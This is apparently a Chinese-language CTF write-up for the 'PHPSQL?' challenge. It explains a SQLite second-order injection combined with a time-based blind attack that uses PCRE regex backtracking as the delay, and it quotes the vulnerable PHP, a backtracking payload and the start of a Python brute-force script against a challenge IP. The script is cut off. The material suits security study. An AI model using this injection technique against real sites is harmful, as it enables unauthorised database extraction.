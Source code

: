 ***

### PHPSQL?

SQLite3二次+时间盲注

利用PCRE的回溯进行延时，利用二次注入修改commentsize进入不同if分支触发延时条件

二次注入点：

```php
$comment = $_POST['comment'];
$sql = "select user from users where id = '".$this->userid."'";
$db = new Data_db();
@$ret = $db->querySingle($sql) or 0;
$db->close();
$username = $ret;
$email = $username."@ctf.com";
$sql = "UPDATE file SET email = '".addslashes_to_sqlite($email)."' where userid = ".$this->userid;
```

延时条件：

```php
if(( $comment_size + $br_padding) > $max_comment_size)
{
    //移除掉所有html标签
    $comment = preg_replace('/(<.*>)+/','',$comment);
    if(strlen($comment) > $max_comment_size)
    {

        return true;
    }
    else
    {
        $email = "admin@ctf.cn";

        return true;
    }
}
else
{
    //只移除br标签
    $comment = preg_replace('/(<(\/)?br>)+/','',$comment);
    $email = "admin@ctf.cn";

    return true;
}
```

if分支内存在`*`的贪婪匹配，而else分支内只匹配3个字符

利用`<><<<<<<<<<<<<<<<<<<<<<<<<<<<`使PCRE回溯延时

```python
import requests

base = 'http://134.175.2.73:8000'
reg = base + '/index.php?action=register'
login = base + '/index.php?action=index'
comment = base + '/index.php?action=profile'
logout = base+'/index.php?action=logout'

flag = 'J:b'

for i in range(4, 6):
    for w in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_ []{}<>~`+=,.;:/?|':
```